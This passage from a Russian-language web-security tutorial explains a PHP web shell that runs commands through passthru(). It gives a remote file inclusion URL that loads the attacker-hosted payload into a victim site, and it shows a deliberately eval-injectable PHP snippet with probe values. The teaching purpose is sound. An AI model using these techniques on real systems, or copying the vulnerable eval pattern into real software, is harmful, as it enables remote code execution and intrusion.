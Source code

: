 Разберем подробнее, что он делает:
1. Строки кода с 1 по 9, а также с 15 по 16 — это просто формирование формы ввода, куда в дальнейшем мы будем вводить команды.
1. Строки кода с 10 по 14 формируют результат запрошенной команды.
1. Строка кода 11 — это проверка на первое подключение шела.
1. Строка кода 12 — если шелл только что подключился, или в форме была передана пустая строка, то выполнится ряд стандартных команд `id;pwd;uname -a;ls -la`.
1. Строка кода 14 — это непосредственно выполнение и вывод уязвимого кода. `passthru($code)` — выполняет внешнюю программу и выдает результат. Аналогично работает функция `exec(), shell_exec(), system()`...

Попробуем подключить созданный файл на сервере жертвы:<br>`http://example.com/index.php?page={адрес вашего сервера}/payload`

В итоге получаем веб-шелл:

![alt text](./imgs/mod3_5_php2.png) 

Обратите внимание на то, что путь к файлу payload.php был прописан без расширения, т. к. на сайте жертвы расширение дописывается само.

### Потенциально опасные функции

- include()
- require()
- require_once()
- include_once()
- eval() — функция выполняет PHP код, переданный ей в виде строки

Допустим, есть шаблон приветствия, в который передается имя:

```php
<?php
 if (isset($_GET['name'])) {
  $name =$_GET['name'];
  $hello = '';
  eval("\$hello = '<h2>Welcome <i>'.$name.'</i> to site!</h2>';");
  echo $hello;
 }
?>
```

Чтобы проверить, уязвим ли параметр `name` в запросе к eval-инъекции, можно попробовать подставить одно из следующих значений:
- `<?php phpinfo(); ?>`
- `phpinfo();`
